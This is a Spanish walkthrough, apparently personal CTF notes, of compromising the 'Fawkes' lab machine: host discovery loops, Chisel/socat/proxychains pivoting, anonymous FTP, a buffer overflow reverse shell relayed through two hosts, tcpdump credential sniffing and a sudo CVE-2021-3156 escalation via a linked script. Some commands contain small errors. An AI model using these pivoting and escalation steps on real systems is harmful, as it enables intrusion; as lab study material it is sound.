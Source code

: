 ```yaml
---
title: "3. Fawkes"
description: "3. Fawkes"
pubDate: 2025-05-20
---
```


[2. Nagini](2.%20Nagini.md)

# Fase de reconocimiento

## Buscamos hosts en la red

Buscaremos host en red con un script en bash

````
#!\dev\null

for i in $(seq 1 254); do
		timeout 1 bash -c "ping -c 10.10.0.$i" &>/dev/null && echo "[+] Host 10.0.0.$i - ACTIVE" &
		
done; wait
````

(Si no acepta traza icmp⬇ )

````
#!\dev\null

for i in $(seq 1 254); do
		for port in 21 22 80 443 445 8080; do
				timeout 1 bash -c "echo '' > /dev/tcp/10.10.0.$i/$port" &>/dev/null && echo "[+] Host 10.0.0.$i - ACTIVE - PORT $port" &
		done
		
done; wait
````

 > [!NOTE]
 > Esto no se suele hacer, se suele usar mas Chisel qué es más fácil

## Pivoting con Chisel

Chisel creará un tunnel entre el chisel servidor y el/los cliente/s trayendo puertos.
Para poder utilizar la maquina atacante todo el rato.

1. Copiamos chisel en la maquina Nagini

````
proxychains scp chisel root@<ip2>:/tmp/chisel
````

2. Nos conectamos al servidor

````
./chisel client <ip1>:2322 R:8888:socks
````

3. Con socat en Aragog lo redirigimos al servidor

````
./socat TCP-LISTEN:2322, fork TCP:<ipa>:1234
````

Esto abrirá un túnel por la 8888 con la red del cliente
4. Con el proxy "proxychains" configuramos el archivo "proxychains.conf"

````
# strict_chain
Deshasteamos dynamic_chain
add abajo:
	socks5 127.0.0.1 8888
	socks5 127.0.0.1 1080
````

Ahora para ejeuctar comandos en 'ip2' con proxycahins -comando-

## Buscar puertos

Buscaremos puertos con la ayuda de xargs para agilizar el escaneo

````
seq 1 65535 | xargs -P 500 -I {} proxychains nmap -sT -Pn -p{} -open -T5 -v -n <ip3> 2>&1 | grep "tcp open"
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240422182642.png)

## FoxyProxy

Para poder ver la web añadimos un proxy en el navegador con FoxyProxy con el puerto 8888
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240422180531.png)

## FTP

Nos conectamos al FTP

````
proxychains ftp <ip3>
````

Name: anonymous
password:

````
ftp> passive
ftp> dir
ftp> binary
ftp> get <archivo>
````

# Fase de ataque

## Buffer Overflow

El archivo conseguido por FTP es un ejecutable, este mismo ejecutable esta abierto en la maquina por el puerto 9898.
Este ejecutable pude ser atacado por Buffer Overflow.

(No explicado por mi) https://taishi8117.github.io/2016/07/24/bof-metasploit/
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240422201341.png)

Utilizar Chisel en Naigini y Aragog para recibir la shell

````
proxychains pyhton3 exploit.py
````

\[-\] ==pwned!==

Ajustar terminal

# Privilege Escalation

## Docker

````
sudo /bin/sh
````

Hay una nota que nos sugiere revisar el trafico FTP

````
tcpdump -i th0 port ftp or ftp-data
````

Revisando nos da un usuario y contraseña de Fawkes

## Fawkes

````
proxychains ssh <usr>@<ip3>
````

Numeramos archivos con permisos

````
find \-perm -4000 2>/dev/null
````

Encontramos un sudo version 1.8.27 con un CVE
https://github.com/worawit/CVE-2021-3156/blob/main/exploit_nss.py
Copiamos el script y cambiamos la ruta de sudo

````
python3 script.py
````

\[+\] ==pwned!==

# Resumen Técnicas

EXTRA: Running chisel as a client from the Nagini machine to reach the Fawkes machine
EXTRA: Creating a new socks5 connection through a new port
EXTRA: FTP connection in passive mode when going through proxychains
Binary Enumeration - Buffer Overflow (x32) Stack Based
EXTRA: Execution of the Buffer Overflow sending the reverse shell through 2 machines until it reaches us
Abusing Sudoers Privilege in a container
Intercepting the traffic with tcpdump - Discovering credentials in FTP authentication
SSH Credential Reuse - Escaping the Container
Abusing sudo 1.8.27 version (CVE-2021-3156) (Privilege Escalation)
